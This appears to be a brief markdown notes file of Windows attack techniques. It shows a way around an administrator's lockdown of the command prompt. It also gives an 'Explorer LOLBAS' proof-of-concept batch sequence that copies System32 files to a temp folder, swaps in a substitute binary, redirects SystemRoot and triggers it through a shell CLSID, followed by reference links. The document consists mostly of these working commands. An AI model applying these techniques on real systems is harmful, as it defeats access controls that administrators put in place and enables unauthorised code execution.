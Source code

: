 # bypass CMD being locked down
if CMD is locked down by administrator
- open start menu
- open run
- run: ```cmd.exe /k "whoami"```



# Explorer LOLBAS
## POC:
```
mkdir %temp%\System32
FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL
set a=C:\Windows\System32\calc.exe
copy %a% %temp%\System32\rstrui.exe /Y > NUL
set SystemRoot=%temp%
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}****
```

### References: 
- https://twitter.com/notwhickey/status/1584774172906967042
- https://youtu.be/PuNgf29Gn8o
- https://strontic.github.io/xcyclopedia/library/clsid_3f6bc534-dfa1-4ab4-ae54-ef25a74e0107.html
- https://strontic.github.io/xcyclopedia/
- https://ss64.com/nt/shell.html
- https://winaero.com/windows-11-shell-commands-the-complete-list/
- https://www.winhelponline.com/blog/shell-commands-to-access-the-special-folders/
- https://learn.microsoft.com/en-us/windows/win32/com/embedded-objects
